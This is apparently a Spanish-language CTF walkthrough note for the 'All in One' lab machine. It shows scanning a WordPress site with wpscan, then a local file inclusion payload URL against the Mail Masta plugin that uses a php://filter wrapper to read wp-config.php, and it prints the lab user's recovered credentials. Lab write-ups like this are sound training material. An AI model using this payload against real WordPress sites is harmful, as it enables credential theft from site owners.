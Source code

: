 #Wordpress #PinguinoMario #HackingEtico 
Dentro de los wordpress hay un fichero de configuración donde se guardan credenciales de los usuarios registrados; y podemos llegar a él explotando distintas vulnerabilidades, como un LFI detectando primero un plugin vulnerable con wpscan en la máquina [[MAQUINA ALL IN ONE]]
```bash
wpscan --url http://10.10.123.20/wordpress/ -e p
```
Y encontramos este que es vulnerable:
![[Pasted image 20230825163230.png]]
Tenemos un script

```bash
https://wpscan.com/vulnerability/8609
```
![[Pasted image 20230825164108.png]]
Lo probamos en el navegador y funciona:
![[Pasted image 20230825164125.png]]
Pero si queremos obtener el fichero wp-config.php, tenemos que hacer uso de un wrapper:
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```
![[Pasted image 20230826170029.png]]
Esto lo tenemos que decodificar ya que viene en base64:
![[Pasted image 20230826170206.png]]
Y vemos las credenciales del usuario elyana:
```bash
elyana:H@ckme@123
```
